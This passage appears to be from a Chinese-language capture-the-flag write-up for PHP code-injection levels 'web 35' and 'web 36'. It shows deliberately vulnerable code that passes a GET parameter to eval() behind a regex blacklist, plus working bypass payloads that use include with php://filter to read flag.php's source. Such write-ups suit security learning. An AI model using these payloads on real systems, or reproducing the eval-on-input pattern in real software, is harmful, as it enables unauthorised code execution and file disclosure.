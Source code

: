 emmmmm,多过滤了一个分号，不过好像没什么用。。

payload同上



## web 35

```php
<?php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

多过滤了一个这个符号 <  ，好像没什么用哈哈

payload继续同上



## web 36

```php
<?php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

过滤了数字

直接把数字1改成字符就🆗了

payload:
?c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php

payload:
?c=include$_POST[a]?>
a=php://filter/read=convert.base64-encode/resource=flag.php
